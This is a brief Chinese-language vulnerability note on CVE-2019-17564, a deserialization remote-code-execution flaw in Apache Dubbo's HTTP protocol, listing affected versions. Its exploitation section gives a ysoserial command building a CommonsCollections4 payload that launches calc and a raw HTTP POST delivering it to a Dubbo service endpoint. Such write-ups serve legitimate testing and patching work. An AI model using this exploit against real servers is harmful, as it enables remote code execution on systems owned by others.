

### 漏洞详情 ###
CVE-2019-17564是Apache Dubbo HTTP协议中的一个反序列化漏洞,该漏洞的主要原因在于当Apache Dubbo启用HTTP协议之后，Apache Dubbo在接受来自消费者的远程调用请求的时候存在一个不安全的反序列化行为，当项目包中存在可用的gadgets时即可导致远程代码执行

### 影响版本 ###

2.7.0 <= Apache Dubbo <= 2.7.4

2.6.0 <= Apache Dubbo <= 2.6.7

Apache Dubbo = 2.5.x

### 漏洞利用 ###

使用ysoserial生成payload

    java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections4 calc > 1.ser

burp导入生成的payload 发送

    POST /org.apache.dubbo.samples.http.api.DemoService HTTP/1.1 
    Host: 192.168.0.102:8080 
    
    <ysoserial生成的payload>

